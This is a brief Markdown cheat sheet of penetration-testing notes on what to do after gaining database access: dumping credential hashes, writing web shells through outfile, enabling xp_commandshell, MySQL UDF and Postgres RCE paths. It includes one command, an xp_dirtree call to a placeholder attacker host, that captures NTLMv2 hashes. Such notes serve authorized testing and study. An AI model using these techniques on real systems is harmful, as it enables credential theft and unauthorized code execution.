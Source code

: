 # got access to databases - general SQL
- dump creds / hashes
- dump hashes of database users `mysql.users`
- command execution
  - write web shell directly into outfile - may return SQL error but still write file
  - code execution built into database or with modules
  - write config backups with web shells embedded in data
  - edit user hashes authenticate for auth RCE
  - servers running as root
  - mysql -> raptor udf2 command exec
    - mysql GRANT OPTION -> grant file permissions
  - mssql -> enable `xp_commandshell`
  - Postgres 9.3+ auth RCE -> msf `multi/postgres/postgres_copy_from_program_cmd_exec`
- read files
- check if DBA -> enable access to files / commands
- target DBA or privileged user for file write or RCE
- see what other databases are accessable
- CMS database looking for foothold -> possible extra enumeration
  - installed plugins
  - data -> hidden posts, secrets, creds in messages
- mssql + SQLi
  - stacked queries common
  - `xp_commandshell`
  - capture NTLMv2 hashes `EXEC xp_dirtree '\\attacker.ip\share'`

# References

Tags:
    #assorted

